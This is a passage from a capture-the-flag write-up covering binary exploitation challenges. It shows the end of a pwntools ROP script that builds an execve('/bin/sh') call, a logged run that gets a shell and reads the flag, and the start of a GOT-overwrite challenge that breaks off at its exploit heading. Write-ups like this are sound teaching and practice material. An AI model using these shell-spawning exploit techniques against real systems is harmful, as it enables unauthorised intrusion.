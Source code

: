 ```py
payload += p64(0x0)
payload += pop_rdx
payload += p64(0x0)
payload += pop_rax
payload += p64(59)
payload += syscall


p.recvline()
p.sendline(payload)

# Sedding `/bin/sh` and then the execve syscall will 
p.sendline("/bin/sh\x00")


p.interactive()
```

Running the exploit:-

```asm
0 [07:44:40] vagrant@oracle(oracle) pwn> python3 sad.py 
[+] Opening connection to jh2i.com on port 50002: Done
[*] Switching to interactive mode
$ ls
flag.txt
sad
$ cat flag.txt
flag{radically_statically_roppingly_vulnerable}
$ 
[*] Interrupted
[*] Closed connection to jh2i.com port 50002
```

> Reference: <https://pwning.tech/2020/03/09/zer0pts-hipwn/>

# Bullseye


This challenge was quite good and I liked it, it provided us a write-what-where primitive as a service and since the binary has Partial RELRO which means GOT entry was writeable, such a handy information. It was also leaking the alarm libc address which made it simple for us to get LIBC address by searching it ftro libc database.

```asm
[*] '/home/vagrant/CTF/hacktivitycon/pwn/bullseye'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
Exploit:-
